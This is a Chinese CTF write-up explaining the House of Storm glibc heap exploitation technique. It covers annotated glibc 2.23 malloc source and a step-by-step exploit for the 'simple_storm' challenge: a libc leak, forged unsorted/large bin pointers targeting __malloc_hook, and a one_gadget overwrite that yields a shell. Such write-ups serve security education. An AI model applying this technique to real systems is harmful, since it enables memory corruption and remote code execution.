


House Of Storm

* * *

# House Of Storm

## 背景知识

House Of Storm 是一种结合了 unsortedbin attack 和 Largebin attack 的攻击技术，其基本原理和 Largebin attack 类似，可以达到任意地址写的效果，危害十分之大，但是其条件也是非常的苛刻。

## 利用条件

1.glibc版本小于2.30,因为2.30之后加入了检查  
2.需要攻击者在largebin和unsorted\_bin中分别布置一个chunk 这两个chunk需要在归位之后处于同一个largebin的index中,且unsortedbin中的chunk要比largebin中的大  
3.需要unsorted\_bin中的bk指针可控  
4.需要largebin中的bk指针和bk\_nextsize指针可控

相较于 Largebin attack 来说，攻击需要的条件多出了一条 “unsorted bin中的bk指针可控” ，但是基本上程序如果 Largebin attack 条件满足，基本代表存在UAF漏洞，那么多控制一个bk指针应该也不是什么难事

## 利用姿势

unsorted\_bin->fd = 0  
unsorted\_bin->bk = fake\_chunk

large\_bin->fd = 0  
large\_bin->bk = fake\_chunk+8  
large\_bin->fd\_nextsize = 0  
large\_bin->bk\_nextsize = fake\_chunk - 0x18 -5

## 复习强化

### unsorted bin

当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。  
释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释  
当进行 malloc\_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

Unsorted bin可视为空闲chunk回归所属bin之前的缓冲区，Unsorted bin处于bin数组下标1处，所以Unsorted bin只有一个链表，并且是双向链表。因此Unsorted bin中的chunk不按照size进行分类，所有空闲chunk处于乱序状态

当程序新申请堆得时候，会在unsortedchunk中遍历，如果正好匹配会被分配，但是如果没有正好匹配得会先将unsorted bin中得bins分别分配到各个bins中，然后再通过切分操作分配空间

### large bin

Largebin用来收容超过0x400大小以上的chunk(64位) 其是一个双向链表  
一共可以容纳63个chunk 和fastbin等不同的是 其对于链表对应存储chunk的大小没有明确规定 而是一个范围  
一共分为6组

组-------数量--------差值  
1---------32---------64(0x40)  
2---------16---------512(0x200)  
3---------8----------4096(0x1000)  
4---------4----------32768(0x8000)  
5---------2----------262144(0x40000)  
6---------1----------无限制

## 源码分析

漏洞发生在unsorted\_bin的chunk放入largebin的过程中，以下是glibc2.23的源码分析，这里引用了Rookle师傅对于源码的注释

```plain
//#define unsorted_chunks(M)          (bin_at (M, 1))
//如果unsorted bins不为空，从尾到头遍历unsorted bin中的每个chunk
while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) 
{
    bck = victim->bk;//取出unsorted的尾部的chunk
    /*
        检查当前遍历的 chunk 是否合法，chunk 的大小不能小于等于 2 * SIZE_SZ，
        也不能超过 该分配区总的内存分配量。然后获取 chunk 的大小并赋值给 size。
        这里的检查似乎有点小问题，直接使用了 victim->size，但 victim->size 
        中包含了相关的标志位信息，使用 chunksize(victim) 才比较合理，但在 
        unsorted bin 中的空闲 chunk 的所有标志位都清零了，所以这里直接 
        victim->size 没有问题。
    */
    if (__builtin_expect(victim->size <= 2 * SIZE_SZ, 0)
        || __builtin_expect(victim->size > av->system_mem, 0))
        malloc_printerr(check_action, "malloc(): memory corruption",
                        chunk2mem(victim), av);

    size = chunksize(victim);//获取victim的size

    /*
        如果要申请的大小在smallbin范围 且 unsorted chunks 只有一个chunk，且
        victim是last_remainder 且 victim的size大于请求的chunk的大小nb加上
        (MINSIZE)最小chunk的size,那么就切割remainder,然后返回victim。

        last_remainder 是一个 chunk 指针，分配区上次分配 small chunk 时，
        从一个 chunk 中分 裂出一个 small chunk 返回给用户，分裂后的剩余部分
        形成一个 chunk，last_remainder 就是 指向的这个 chunk。
    */
    if (in_smallbin_range(nb) &&
        bck == unsorted_chunks(av) &&
        victim == av->last_remainder &&
        (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {

        //分割remainder
        remainder_size = size - nb;//计算分割后剩下的size
        remainder = chunk_at_offset(victim, nb);//获取remainder的地址
        //把remainder加入unsorted bin中
        unsorted_chunks(av)->bk = unsorted_chunks(av)->fd = remainder;
        av->last_remainder = remainder; // 设置last_remainder为remainder
        remainder->bk = remainder->fd = unsorted_chunks(av);
        //如果是remainder在large bin的范围，则把fd_nextsize,fd_nextsize清零
        if (!in_smallbin_range(remainder_size)) {
            remainder->fd_nextsize = NULL;
            remainder->fd_nextsize = NULL;
        }
        //设置victim的size
        set_head(victim, nb | PREV_INUSE |
                 (av != &main_arena ? NON_MAIN_ARENA : 0));
        //设置remainder的size
        set_head(remainder, remainder_size | PREV_INUSE);
        //设置remainder的物理相邻的下一个chunk的prev_size
        set_foot(remainder, remainder_size);

        check_malloced_chunk(av, victim, nb);//默认不做任何操作
        void *p = chunk2mem(victim);//将chunk指针转化为mem指针
        alloc_perturb(p, bytes);//将p的mem部分全部设置为bytes ,默认什么也不做
        return p;
    }


    //把victim从unsorted bin 中移除
    unsorted_chunks(av)->bk = bck;
    bck->fd = unsorted_chunks(av);

    //如果 victim 的size 与申请的size相等，那么就返回其。
    if (size == nb) {
        //设置victim物理相邻的下一个chunk的prev_inuse位
        set_inuse_bit_at_offset(victim, size);
        //如果av不是main_arena 也就是说如果不是主进程,设置NON_MAIN_ARENA位
        if (av != &main_arena)
            victim->size |= NON_MAIN_ARENA; 

        check_malloced_chunk(av, victim, nb); // 默认不做任何操作
        void *p = chunk2mem(victim);//把chunk转换为mem指针
        alloc_perturb(p, bytes);//将p的mem部分全部设置为bytes ,默认什么也不做
        return p;
    }


    //如果上一步取出的chunk没有匹配成功，那么将该chunk放入对应的bin中
    //如果在smallbin的范围,则放到对应多small bin中
    if (in_smallbin_range(size)) 
    {
        victim_index = smallbin_index(size);//获取size对应的smallbin的index
        bck = bin_at(av, victim_index);//bck指向size对应的smallbin的链表头
        //fwd指向size对应的smallbin的链表中的新加入的chunk(small bin使用头插法)
        fwd = bck->fd;
    }
    else//如果不再smallbin的范围，也就是说在large bin 的范围
    {
        victim_index = largebin_index(size);//获取size对应的large bin的index
        bck = bin_at(av, victim_index);//bck指向size对应的large bin的链表头
        fwd = bck->fd;//fwd指向size对应的large bin的链表中的新加入的chunk

        //如果large bin 非空，在largbin进行按顺序插入
        if (fwd != bck) {
            /* Or with inuse bit to speed comparisons */
            size |= PREV_INUSE;
            assert((bck->bk->size & NON_MAIN_ARENA) == 0);//默认不启用assert
            /*
                large bin中的chunk是按从大到小排列的，如果size < large bin 
                的最后一个chunk，说明size是这个large bin中的最小的，我们把它
                加入到此large bin尾部。
            */
            if ((unsigned long) (size) < (unsigned long) (bck->bk->size)) {

                fwd = bck;
                bck = bck->bk;

                /*
                large bin 中size最小的chunk的fd_nextsize会指向size最大的
                那个chunk，也就是首部的chunk。同样，large bin 中size最大的
                chunk的bk_nextsize会指向size最小的那个chunk。
                victim的bk_nextsize指向large bin原来最小的chunk，它的
                bk_nextsize指向最大的那个chunk。那么原来的最小的就成了第二小的了。
                把它fd_nextsize和bk_nextsize都修正。
                */
                victim->fd_nextsize = fwd->fd;
                victim->bk_nextsize = fwd->fd->bk_nextsize;
                //最大size的chunk的bk_nextsize，和原来最小chunk的bk_nextsize都指向victim
                fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
            } 
            else //如果victim不是large bin 中最小的chunk
            {
                assert((fwd->size & NON_MAIN_ARENA) == 0);//默认不启用assert
                //从大到小（从头到尾）找到合适的位置
                while ((unsigned long) size < fwd->size) {
                    fwd = fwd->fd_nextsize;
                    assert((fwd->size & NON_MAIN_ARENA) == 0);
                }
                //如果size刚好相等，就直接加入到其后面省的改fd_nextsize和bk_nextsize了
                if ((unsigned long) size == (unsigned long) fwd->size)
                    fwd = fwd->fd;
                else 
                {
                    //size不相等，即size>fwd->size，把victim加入到纵向链表中
                    victim->fd_nextsize = fwd;
                    victim->bk_nextsize = fwd->bk_nextsize;
                    fwd->bk_nextsize = victim;
                    victim->bk_nextsize->fd_nextsize = victim;
                }
                bck = fwd->bk;
            }
        } 
        else //如果large bin 为空，将victim加入到纵向列表
            victim->fd_nextsize = victim->bk_nextsize = victim;
    }

    //#define mark_bin(m, i)    ((m)->binmap[idx2block (i)] |= idx2bit (i))
    mark_bin(av, victim_index); //把victim加入到的bin的表示为非空
    //把victim加入到large bin的链表中
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
}
```

绕过检查需要满足：  
1.unsorted\_bin->bk = fake\_chunk #把fake\_chunk链到了unsorted\_bin中  
2.fake\_chunk+0x10 = unsorted\_bin #伪造fake\_chunk的fd  
3.fake\_chunk+0x3 = unsorted\_chunk #伪造fake\_chunk的size  
4.fake\_chunk+0x18 = unsorted\_chunk #伪造fake\_chunk的bk

简单来概括就是一下几步：  
unsorted\_bin->fd = 0  
unsorted\_bin->bk = fake\_chunk  
large\_bin->fd = 0  
large\_bin->bk = fake\_chunk+8  
large\_bin->fd\_nextsize = 0  
large\_bin->bk\_nextsize = fake\_chunk - 0x18 -5

## simple\_storm

### ida

```plain
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  mallopt(1, 0);
  puts("Bugku: house of storm!");
  do
  {
    menue();
    v4 = get_int();
    if ( v4 == 4 )
    {
      show();
    }
    else if ( v4 <= 4 )
    {
      switch ( v4 )
      {
        case 3:
          edit();
          break;
        case 1:
          add();
          break;
        case 2:
          delete();
          break;
      }
    }
  }
  while ( v4 != 5 );
  puts("over!");
  return 0;
}
```

```plain
unsigned __int64 add()
{
  unsigned int i; // [rsp+8h] [rbp-118h]
  int v2; // [rsp+Ch] [rbp-114h]
  char s[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+118h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; ptr[i]; ++i )
    ;
  if ( i == -1 )
  {
    puts("you don't have enough mem");
  }
  else
  {
    puts("Size?");
    v2 = get_int();
    if ( v2 > 0 && v2 <= 0x410 )     
    {
      ptr[i] = malloc(v2);
      ptr_size[i] = v2;
      sprintf(s, "success! idx is %d .\n", i);
      puts(s);
    }
    else
    {
      puts("Wrong size!\n");
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
```

```plain
int edit()
{
  _DWORD *v1; // rbx
  unsigned int v2; // [rsp+Ch] [rbp-14h]

  puts("Index?");
  v2 = get_int();
  if ( v2 > 15 || !ptr[v2] )
    return puts("Not a valid index!\n");
  puts("Content?");
  v1 = ptr[v2];
  v1[read(0, v1, ptr_size[v2] - 1) - 1] = 0;
  return puts("Success!\n");
}
```

```plain
int show()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Index?");
  v1 = get_int();
  if ( v1 <= 0xF && ptr[v1] )
    return puts(ptr[v1]);
  else
    return puts("Not a valid index!\n");
}
```

```plain
int delete()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Index?");
  v1 = get_int();
  if ( v1 > 0xF || !ptr[v1] )
    return puts("Not a valid index!\n");
  free(ptr[v1]);
  return puts("Success!\n");
}
```

程序比较简单，但是有一点需要注意的就是 mallopt(1, 0); 这一串代码，这里是把fast bins给禁掉了

### mallopt

功能：控制内存分配  
1.M\_MXFAST  
M\_MXFAST用于设置fast bins中保存的chunk的最大大小，默认值为64B，fast bins中保存的chunk在一段时间内不会被合并，分配小对象时可以首先查找fast bins，如果fast bins找到了所需大小的chunk，就直接返回该chunk，大大提高小对象的分配速度，但这个值设置得过大，会导致大量内存碎片，并且会导致ptmalloc缓存了大量空闲内存，去不能归还给操作系统，导致内存暴增。  
M\_MXFAST的最大值为80B，不能设置比80B更大的值，因为设置为更大的值并不能提高分配的速度。Fast bins是为需要分配许多小对象的程序设计的，比如需要分配许多小struct，小对象，小的string等等。  
如果设置该选项为0，就会不使用fast bins。

### 思路

禁掉fast bins，有UAF ，直接打house of storm

### 详细流程

```plain
add(0x20)
add(0x400) #1
add(0x20)
add(0x410) #3
add(0x20)
add(0x20)  #5
add(0x20)
```

首先申请0x400和0x410的chunk1和chunk3，中间0x20的chunk防止合并.这里是chunk1和chunk3的大小都在large bin 的第一组别中(0x400-0x440),然后申请一个0x20的chunk5，这里是为了后续申请chunk而把unsorted bin中的chunk链到large bin中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230708172915-e80c21e8-1d71-1.png)

```plain
delete(1)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230708172929-f04adb06-1d71-1.png)

```plain
delete(3)
delete(5)
```

可以看到禁掉 fast bins 后，0x30 大小的chunk也进入 unsorted bin中了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230708172944-f92742d2-1d71-1.png)

```plain
show(1)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak("libc_base ",libc_base)
malloc_hook=libc_base+libc.sym['__malloc_hook']
leak('malloc_hook',malloc_hook)
fake_chunk = malloc_hook - 0x50
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230708172959-02372202-1d72-1.png)

```plain
add(0x20)
```

在fast bins中找不到合适大小的chunk，于是遍历 unsorted bin ，把 unsorted bin 中的chunk放到对应大小的bin中（这里unsored bin中虽然有对应大小的chunk，但是正常流程是再fast bins中找到的，所以这里仍然需要遍历）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173020-0ef16fac-1d72-1.png)

```plain
add(0x410)  #3
delete(3)
```

申请后再次释放就链入了unsorted bin中，同时也满足了 unsorted bin 中的 chunk 比 large bin中的大  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173038-1960495e-1d72-1.png)

```plain
payload=p64(0)+p64(fake_chunk)
edit(3,payload)
```

chunk3\_bk-->fake\_chunk  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173057-24de393a-1d72-1.png)

```plain
payload=p64(0)+p64(fake_chunk+0x8)+p64(0)+p64(fake_chunk-0x18-5)
edit(1,payload)
```

chunk1\_bk-->fake\_chunk+8  
chunk1\_bk\_nextsize-->fake\_chunk-0x18-5

这里 chunk1\_bk\_nextsize-->fake\_chunk-0x18-5 是为了后面 fake\_chunk 的size为0x56，这样P位就是0，可以通过检查了(堆地址通常是0x55或者0x56开头,只有当0x56开头的时候才能绕过检查)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173117-3066ab0c-1d72-1.png)

```plain
add(0x48) #9
```

这里size正好能够绕过检查，所以能够申请下来

[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173129-37dbeff0-1d72-1.png)

```plain
og=libc_base+ogs[1]
payload = p64(og)*8+p64(og)
edit(9,payload)
```

然后编辑一下直接传入onegadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173143-402db314-1d72-1.png)

```plain
add(0x20)
```

成功getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230708173158-48ed9d84-1d72-1.png)

## 参考文章

[https://www.cnblogs.com/Rookle/p/13140339.html](https://www.cnblogs.com/Rookle/p/13140339.html)
